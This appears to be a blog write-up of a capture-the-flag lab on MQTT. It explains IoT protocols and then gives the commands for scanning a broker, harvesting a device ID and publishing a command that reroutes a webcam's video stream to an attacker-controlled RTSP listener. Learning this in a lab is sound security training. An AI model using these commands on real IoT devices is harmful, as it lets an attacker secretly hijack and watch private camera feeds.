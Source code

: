 ```yaml
---
layout: single
title: "[Day 21] MQTT Have yourself a merry little webcam"
header:
  teaser: "/assets/images/hacking-teaser.JPG"
---
```


# IoT protocols
|Protocol |	Communication Method |	Description |
|---------|----------------------|--------------|
|MQTT (Message Queuing Telemetry Transport)|	Middleware | A lightweight protocol that relies on a publish/subscribe model to send or receive messages.|
|CoAP (Constrained Application Protocol)|	Middleware|	Translates HTTP communication to a usable communication medium for lightweight devices.|
|AMQP (Advanced Message Queuing Protocol)|	Middleware|	Acts as a transactional protocol to receive, queue, and store messages/payloads between devices.|
|DDS (Data Distribution Service|	Middleware |	A scalable protocol that relies on a publish/subscribe model to send or receive messages. |
|HTTP (Hypertext Transfer Protocol)|	Device-to-Device|	Used as a communication method from traditional devices to lightweight devices or for large data communication.|
|WebSocket |	Device-to-Device |	Relies on a client-server model to send data over a TCP connection.|


# MQTT
The mqtt is a messages protocol using publish subscribe model.
![Check entropy of binary](/assets/images/tryhackme/day21/publish-subscribe-model.png)

to overcome the problem of different types of data and multiple publisher the publish/subscribe model uses topics: 

![Check entropy of binary](/assets/images/tryhackme/day21/publish-subscribe-mode-topic-publish.png)
![Check entropy of binary](/assets/images/tryhackme/day21/publish-subscribe-mode-topic-subscribe.png)

An MQTT broker assigns all devices connected to it read/write access to all topics; that is, any device can publish and subscribe to a topic.
MQTT, a device ID is commonly exchanged by publishing a message containing the device ID to a pre-known topic that anyone can subscribe to.

## Tools
* Paho Paho is a python library that offers support for all features of MQTT.
* Mosquitto is a suite of MQTT utilities that include a broker and publish/subscribe clients that we can use from the command line.

Command to subscribe to topic "device/thm" on broker behind example.thm: ```mosquitto_sub -h example.thm -t device/thm```

### Nmap script scanning
Nmap script scan of all ports
```nmap -sC -sV -p- <Target IP> -vv --min-rate 1500```

# Task

We want to send a message to "device/{deviceID}/cmd topic which configure the camera to stream its content to our own rtsp listener. 
To get the deviceID we can listen to the "device/init" topic. 

We first run Nmap script scan to find out there is mosquitto running on the target with the topic: device/init 
We then subscribe to it: ```mosquitto_sub -h 10.10.220.164 -t device/init```

We start a rtsp listener server via: 
```docker run --rm -it --network=host aler9/rtsp-simple-server```

We send this message to the MQTT
```mosquitto_pub -h 10.10.220.164 -t device/R1MM6C0Z4TXJLT96H5T2/cmd -m "{"cmd":10,"url":"rtsp://10.10.4.182:8554/something"}"```

Via ```vlc rtsp://127.0.0.1:8554/something``` we see that we actually rerouted the video feed to our listener.

